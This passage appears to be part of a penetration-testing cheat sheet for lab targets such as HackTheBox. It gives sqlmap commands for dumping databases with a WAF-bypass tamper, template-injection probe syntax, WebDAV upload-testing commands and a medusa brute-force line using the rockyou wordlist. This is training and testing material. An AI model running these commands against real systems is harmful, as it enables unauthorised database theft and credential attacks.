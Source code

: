 ### sqlmap
* example commands
```
sqlmap --url http://10.10.128.77:8000/sqlpanel --tables --columns
sqlmap -r sqlpanel.request --dbms=sqlite --dump-all --tamper=space2comment
```
* capture sqlpane.request with burpsuite first
* --tamper=space2comment for trying to bypass WAF

## Server Side Template Injection (SSTI)
Server-side template injection is a vulnerability where the attacker injects malicious input into a template to execute commands on the server-side

* See https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
* Payload Generator: https://github.com/VikasVarshney/ssti-payload

Make sure to try every syntax
```
*{}
${}
#{}
```

## WebDAV
WebDAV is an extenstion of HTTP that allows clients to perform remote Web content authoring operations. RFC4918.

### Resources
* [Blogpost from Nullbyte](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
* HackTheBox: Granny 

### davtest
DAVTest tests WebDAV enabled servers by uploading test executable files, and then (optionally) uploading files which allow for command execution or other actions directly on the target.
```
davtest -url http://10.10.10.15
```

### cadaver
Cadaver is a simple command-line client, similar to for example the 'ftp' program. It has some advanced features such as lock-management, property management, DASL and version control support.
```
cadaver http://10.10.10.15/mfu
```

# Brute Forcing
:information_source: Password Lists: [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
## medusa
```
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```
